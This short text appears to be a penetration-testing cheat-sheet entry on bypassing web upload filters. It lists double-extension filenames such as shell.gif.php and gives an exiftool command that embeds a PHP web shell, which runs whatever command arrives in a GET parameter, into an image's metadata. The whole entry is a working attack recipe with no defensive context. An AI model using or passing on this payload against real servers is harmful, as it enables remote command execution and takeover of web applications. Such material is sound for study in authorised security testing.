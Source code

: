 Shell bypass some case for filter
1. shell.gif.php
2. shell.jpg.php
We need embeded php code in images as:
Create malicous image file in rce.jpg by exiftool

`exiftool -Comment='<h1>PHP Shell </h1><?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg`
